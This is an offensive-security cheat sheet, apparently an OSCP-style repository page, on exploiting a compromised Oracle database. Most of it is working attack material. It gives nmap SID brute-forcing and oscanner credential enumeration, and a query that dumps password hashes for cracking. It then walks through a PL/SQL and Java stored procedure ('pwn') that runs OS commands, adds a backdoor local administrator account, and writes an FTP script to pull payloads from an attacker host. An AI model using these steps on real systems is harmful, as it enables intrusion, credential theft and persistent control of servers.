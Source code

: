 # ORACLE Database Cheat Sheet
This module will provide us with enough information to get going with a compromised Oracle database.

## Database Discovery
Nmap can be used to discover a database running on our target system like so,

`nmap -A -p 1521 (TARGET IP ADDRESS)`

## Database Enumeration
Once discovered, we can perform some light and heavy enumeration. We must be careful not to lock out any accounts.

### NMAP NSE Scripts
Nmap can be used to brute force a SID from an Oracle service. This is essentially the Database name. I would recommend building your own oracle-sids file to use from your other service / os / etc enumeration results. Even the hostname / domain names can be added to this file.

`nmap --script oracle-sid-brute -p 1521 (TARGET IP ADDRESS)`

### OScanner
[oscanner](https://tools.kali.org/vulnerability-analysis/oscanner) is a tool that can be used to enumerate users and passwords from a database.

`root@kali:~# oscanner -s (TARGET IP ADDRESS)`

## SQL Syntax
We can issue the following commands with an interface to the database. This could be SQLPlus, or DBeaver.

### Get all Usernames and Hashed Passwords:
To concatenate the usernams and passwords with a colon to be used by John the Ripper, do:

`SELECT Username || ':' || PASSWORD AS credentials FROM DBA_USERS;`

### Get the Database Version:
To get the database version, do:

`SELECT * FROM V$VERSION`

## SYSTEM-Level Command Excecution
**Step 1: Add the correct permissions.** 

This PL/SQL query will take a minute or two to complete and cannot be done using __dbeaver__, it must be done with the __sqlPlus>__ client provided by __Oracle__ to avoid a serious curly brace '{','}', escaping issue with the driver used by dbeaver. This must be done as a SYSTEM-level DBA account. This is just a precautionary step to ensure that we do, in fact, have permissions to create the Java stored procedure that we will use to execute commands. In most cases, we don't have these permissions, but because we are SYSTEM-level DBA, we have permission to assign these permissions to ourself.

```
DECLARE
  l_schema VARCHAR2(30) := 'SYSTEM';
BEGIN
  DBMS_JAVA.grant_permission(l_schema, 'java.io.FilePermission', '<<ALL FILES>>', 'read ,write, execute, delete');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'writeFileDescriptor', '');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'readFileDescriptor', '');
END;
/
```
If successful, it will say *PL/SQL procedure successfully completed.* If using SQLPlus, don't worry about the added numbers, that is a flaw with the terminal / shell in the garbage Oracle code for SQLPlus; it will be ignored when executed.

**Step 2: Create Java Code to Execute:**

This SQL will create a Java class called `mycmd` and a method in the class called `execCommand`.

```
CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "pwn" AS
import java.lang.*;
import java.io.*;
 
public class pwn
{
 public static void cmd (String command) throws IOException
 {
     Runtime.getRuntime().exec(command);
 }
};
/
```
If successful you will see *Java created.* This Java creates a class called "pwn" that we can instantiate objects from. Thus we can do `object_name('C:\WINDOWS\System32\cmd.exe');` to execute commands right from the SQLPlus> shell.

**Step 3: Create a Procedure**

```
CREATE OR REPLACE PROCEDURE pwn_cmd (p_command IN VARCHAR2)
AS LANGUAGE JAVA
NAME 'pwn.cmd (java.lang.String)';
/
```
If successful, you will see *Procedure Created*. We can then call  it as `pwn_cmd('C:\WINDOWS\System32\CMD.EXE');` as so:

**Step 4: Execute Commands (__1 COMMAND AT A TIME__):**

`exec pwn_cmd('net user trevelyn trevelyn /add');`

`exec pwn_cmd('net localgroup Administrators trevelyn /add');`

If each command is successful, you will see *PL/SQL procedure successfully completed.*. If there is a failure, start the whole process over from step 1 and make sure that the formatting is correct and that each SQL query completes successfully. If you accidentally try two commands at once, you will be disobeying the interface of the class / method of mycmd.execCommand and the server will restart your SQL session state and you will have to start over again anyways.

**CAVEAT**
Some "commands" are actually built into shells. So, `echo`, for instance, is part of MSDOS.EXE and not an actual binary on the file system. This means that you cannot simply do:

`exec pwn_cmd('echo connect x.x.x.x > C:\ftp.script');`

As the object will throw an exception stating tha the handle is invalid. To execute shell built-ins, you can call the shell directly wi the command as an argument. For instance,

`exec pwn_cmd('cmd.exe /c echo open X.X.X.X > C:\ftp.txt');`

Will spawn a new MSDOS.EXE instance, and run the `echo` built-in shell command. This is useful to know if you do not have any other means of file system access and you want to [use FTP to pull payloads from the attacker onto the target system,](https://github.com/weaknetlabs/OSCP-tools/blob/master/Post%20Exploitation/ftp.md) or to create batch files and execute them directly from the SQLPlus shell itself.
